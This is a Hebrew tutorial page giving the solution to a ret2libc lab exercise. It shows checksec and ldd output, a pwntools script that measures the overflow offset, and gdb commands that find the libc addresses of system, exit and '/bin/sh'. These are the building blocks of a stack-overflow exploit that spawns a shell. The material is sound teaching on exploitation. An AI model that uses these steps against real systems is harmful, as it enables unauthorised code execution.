

repository: AmitPinchasi/amittech · page: מחקר-חולשות/4 - עקיפת NX וROP בסיסי/4.2 - ret2libc קלאסי/4.2 - ret2libc קלאסי - פתרון/index.html · generator: mkdocs

## פתרון - ret2libc קלאסי

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא. הכתובות בפלט הן דוגמה מהמערכת שלי והן תלויות בגרסת ה-`libc` שלכם - תמיד שלפו את הכתובות מה-`libc` שלכם ואל תעתיקו אותן עיוור.

### פתרון תרגיל 1 - סיור ומדידה

בדיקת ההגנות:

```bash
$ checksec --file=./ret2libc
RELRO           STACK CANARY   NX            PIE
Partial RELRO   No canary      NX enabled    No PIE
```

המצב `NX enabled` הוא הסיבה שאנחנו בכלל צריכים `ret2libc` - אי אפשר shellcode על המחסנית. `No canary` אומר שהoverflow לא נתפסת. `No PIE` פחות קריטי כאן כי ממילא נשתמש בכתובות `libc` ולא בכתובות הבינארי, אבל הוא מקל.

איזו `libc` נטענת:

```bash
$ ldd ./ret2libc
    linux-gate.so.1 (0xf7fc7000)
    libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7dd4000)
    /lib/ld-linux.so.2 (0xf7fc9000)
```

הנתיב הוא `/lib/i386-linux-gnu/libc.so.6`, וכתובת הבסיס שלה בהרצה הזו היא `0xf7dd4000` (יציבה רק כי ASLR כבוי).

מדידת ה-offset עם cyclic:

```python
from pwn import *
context.binary = ELF('./ret2libc')

p = process('./ret2libc')
p.sendline(cyclic(200))
p.wait()

core  = p.corefile
fault = core.read(core.esp, 4)          # what was on top of the stack at ret
log.info('offset = %d', cyclic_find(fault))
```

אצלי יצא `offset = 92` (buffer 80 + padding alignment + `saved ebp` של 4). אצלכם זה עשוי להיות מעט שונה לפי המהדר - זו הסיבה שמודדים ולא מניחים.

### פתרון תרגיל 2 - מציאת הכתובות ב-libc

עוצרים ב-`main` ומריצים, כדי ש-`libc` תהיה כבר ממופה:

```bash
$ gdb -q ./ret2libc
pwndbg> break main
pwndbg> run
pwndbg> p system
$1 = {int (const char *)} 0xf7e0c8d0 <system>
pwndbg> p exit
$2 = {void (int)} 0xf7dfe850 <exit>
```

המחרוזת `"/bin/sh"` שבתוך `libc`:

```bash
pwndbg> search -t string "/bin/sh"
libc.so.6  0xf7f4d4af  '/bin/sh'
```

או בלי pwndbg:

```bash
(gdb) find &system, +9999999, "/bin/sh"
0xf7f4d4af
1 pattern found.
```

שלוש הכתובות:

```text
system = 0xf7e0c8d0
exit   = 0xf7dfe850
binsh  = 0xf7f4d4af
```

בין שתי הרצות הכתובות זהות, כי ASLR כבוי מקבע את בסיס ה-`libc`. אילו ASLR היה פעיל, בסיס ה-`libc` היה מוגרל מחדש בכל הרצה, ושלוש הכתובות היו זזות יחד - ואז לא היינו יכולים לכתוב אותן מראש. שימו לב שכולן במרחק קבוע מבסיס ה-`libc`, ולכן leak של אחת מגלה את כולן.
